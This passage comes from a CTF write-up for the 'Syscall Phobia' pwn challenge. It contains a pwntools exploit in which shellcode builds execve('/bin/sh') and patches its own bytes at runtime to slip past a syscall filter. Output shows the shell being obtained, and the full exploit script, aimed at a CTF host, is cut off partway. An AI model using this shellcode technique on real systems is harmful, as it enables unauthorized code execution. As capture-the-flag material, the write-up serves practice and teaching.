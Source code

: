 ```python
a += ["0e", "05", "90", "90", "90"]                     # add syscall + a few NOPs
payload = ''.join(a)
```

When the binary executes this shellcode, it pops a shell:
```shell
$ python solve.py
[*] '/mnt/c/Users/Brandon Chong/Downloads/writeup stuffs/Syscall Phobia/syscall-phobia'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/mnt/c/Users/Brandon Chong/Downloads/writeup stuffs/Syscall Phobia/syscall-phobia': pid 3632
[*] Paused (press any to continue)
   0:   6a 68                   push   0x68
   2:   48 b8 2f 62 69 6e 2f    movabs rax, 0x732f2f2f6e69622f
   9:   2f 2f 73
   c:   50                      push   rax
   d:   48 89 e7                mov    rdi, rsp
  10:   68 72 69 01 01          push   0x1016972
  15:   81 34 24 01 01 01 01    xor    DWORD PTR [rsp], 0x1010101
  1c:   31 f6                   xor    esi, esi
  1e:   56                      push   rsi
  1f:   6a 08                   push   0x8
  21:   5e                      pop    rsi
  22:   48 01 e6                add    rsi, rsp
  25:   56                      push   rsi
  26:   48 89 e6                mov    rsi, rsp
  29:   31 d2                   xor    edx, edx
  2b:   6a 3b                   push   0x3b
  2d:   58                      pop    rax
  2e:   fe 05 00 00 00 00       inc    BYTE PTR [rip+0x0]        # 0x34
[*] Payload: 6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b58fe05000000000e05909090
[*] Payload length: 114
[*] Switching to interactive mode

Executing your assembly code!
$ ls
solve.py  syscall-phobia  syscall-phobia.i64
``` 

Full exploit code:
```python
from pwn import *
import sys

exe = ELF("./syscall-phobia")
host = "ctf-85ib.balancedcompo.site" 
port = 9998

def exploit(p):
    shellcode = asm(
        "push   0x68;"
        "movabs rax, 0x732f2f2f6e69622f;"
        "push   rax;"
        "mov    rdi, rsp;"
        "push   0x1016972;"
        "xor    DWORD PTR [rsp], 0x1010101;"
        "xor    esi, esi;"
        "push   rsi;"
        "push   0x8;"
```